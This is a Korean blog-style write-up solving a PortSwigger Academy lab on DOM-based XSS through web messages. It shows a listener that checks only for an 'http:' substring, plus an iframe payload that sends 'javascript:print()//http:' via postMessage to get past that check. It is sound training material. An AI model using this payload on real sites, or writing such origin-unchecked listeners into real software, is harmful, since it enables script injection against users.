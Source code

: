 ```yaml
---
layout: post
title: "Burp Academy-Dom 관련 취약점: DOM XSS using web messages"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, Dom 관련 취약점, XSS]
toc: true
last_modified_at: 2024-10-29 09:33:00 +0900
---
```


# 개요
- Dom based 타입의 XSS 취약점 문제이다. 
- 문제 주소: https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages-and-a-javascript-url
- Dom 취약점 중에서 웹메세지 설명페이지: https://portswigger.net/web-security/dom-based/controlling-the-web-message-source
- 난이도: PRACTITIONER (보통)


# 문제 
- 이 랩에는 웹 메시지를 통한 DOM-based 리다이렉션 취약점이 있다. 
- exploit 서버에서 HTML페이지를 만들어서 print함수가 호출되도록 하면 문제가 풀린다. 

```
This lab demonstrates a DOM-based redirection vulnerability that is triggered by web messaging. To solve this lab, construct an HTML page on the exploit server that exploits this vulnerability and calls the print() function.
```


# Web Message를 통한 XSS 기본 지식
어떤 웹 사이트에 다음과 같은 코드가 있다고 하자. 

```js
<script>
window.addEventListener('message', function(e) {
  eval(e.data);
});
</script>
```

위 코드는 취약하다. 왜냐하면 공격자가 다음 iframe을 victim에게 실행시키면 Javascript코드 삽입이 가능하기 때문이다. 

```html
<iframe src="//vulnerable-website" onload="this.contentWindow.postMessage('print()','*')">
```

웹 사이트의 이벤트 리스너가 메세지의 오리진을 체크하지 않고, 공격자의 postMessage() 메서드의 targetOrigin이 *를 지정하고 있으므로, 이벤트 리스너는 페이로드를 수락하고 이를 싱크(eval함수)로 전달하기 때문에 코드 인젝션이 가능해진다. 

# 풀이 
그러면 위의 지식을 가지고 문제를 풀어보자. 

## 웹 메세지 취약점이 있는 곳 찾기 
문제 서버의 / 경로의 HTML페이지를 분석해보면 다음과 같은 코드가 있다. 웹 메세지로 보낸 데이터에 문자열 'http:'나 'https:'가 존재하면 location.href에 웹 메시지 데이터를 전달해주고 있다. 

좀 살펴보면 이 체크 코드는 위험한 것을 알 수 있다. 단순히  'http:'나 'https:'가 포함되어 있는지만 보고 있기 때문에 웹 메세지 데이터의 뒤에 있어도 체크를 통과할 수 있게 된다! 

```js
<script>
    window.addEventListener('message', function(e) {
        var url = e.data;
        if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
            location.href = url;
        }
    }, false);
</script>
```

## exploit코드 만들기 & 테스트 
 
exploit 서버에서 다음과 같이 페이로드를 만든다. `javascript:print()//http:`에는 'http:' 문자열이 포함되어 있으므로 자바스크립트의 체크를 통과한다. 

```html
<iframe src="https://0a2300bb0357c7b8805530b4004300e6.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">
```

저장한 후에 View exploit을 선택하면 다음과 같이 페이로드가 작동하는 것을 알 수 있다. 

![](/images/burp-academy-dom-based-2-1.png)

Deliver exploit to victim 버튼을 클릭하면 다음과 같이 랩이 풀렸다는 메세지가 표시된다. 

![](/images/burp-academy-dom-based-2-success.png)
